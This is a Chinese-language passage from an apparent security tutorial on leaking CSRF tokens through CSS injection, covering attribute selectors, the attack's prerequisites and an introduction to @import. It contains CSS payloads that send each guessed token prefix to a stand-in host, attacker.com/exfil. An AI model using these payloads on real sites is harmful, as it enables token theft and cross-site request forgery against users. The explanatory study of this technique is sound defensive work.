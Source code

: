 传统的CSS注入token信息泄露技术依赖于一种名为Attribute Selectors的CSS特性。Attribute Selectors允许开发人员指定只有当某个元素的属性满足selector指示的条件时，才可以将该特定样式应用于该元素。我们可以利用attribute selector创建一种规则，该规则仅在特定条件下适用于页面上的指定元素。当应用这些样式时，我们可以使用类似于`background-image`等属性使浏览器与攻击者交互，以循环获取token信息泄露操作的反馈。

```
input[name=csrf][value^=a]`{`
    background-image: url(https://attacker.com/exfil/a);
`}`
input[name=csrf][value^=b]`{`
    background-image: url(https://attacker.com/exfil/b);
`}`
/* ... */
input[name=csrf][value^=9]`{`
    background-image: url(https://attacker.com/exfil/9);   
`}`
```

在这个例子中，我们使浏览器一旦发现CSRF token以`a`开头，则将`background-image`设置为`https://attacker.com/exfil/a`中的图像。然后，我们对可能作为token开头的每个字符(a, b, c, .. 7, 8, 9, etc.)重复此规则。

一旦我们知道token的第一个字符是什么，我们就可以再次执行攻击（通常使用iframes），但需要稍微修改payload。

```
input[name=csrf][value^=ca]`{`
    background-image: url(https://attacker.com/exfil/ca);
`}`
input[name=csrf][value^=cb]`{`
    background-image: url(https://attacker.com/exfil/cb);
`}`
/* ... */
input[name=csrf][value^=c9]`{`
    background-image: url(https://attacker.com/exfil/c9);   
`}`
```

在这个例子中，我们假设CSRF token的第一个字母是一个`c`。如此一来，我们通过再次运行之前的规则就可以获得CSRF token的第二个字符。但这要建立在这些tokens都是以`c`开头的基础上。



## 先决条件

上述技术通常需要三个前提：

1.CSS注入需要允许足够长的payload

2.能够在框架加载页面再次执行CSS新生成的payloads

3.能够引用外部图片（可能被CSP阻止）

这意味着，如果注入不允许足够大的payload，或者页面不能被框架加载，那么前面的技术可能不适用。在我们的例子中，这意味由于存在框架安全机制，以及实际可以注入的字符数量有限，我们无法使用这种技术。



## @import to the Rescue

许多编程语言能够从其他源文件导入代码，CSS也不例外。尽管许多人可能只知道`&lt;link href="..." rel="stylesheet"&gt;`，但实际上CSS本身有一种方法可以使用一种名为`[@import](https://github.com/import)`的at-rule来执行类似（但不同）类型的表单样式包含。
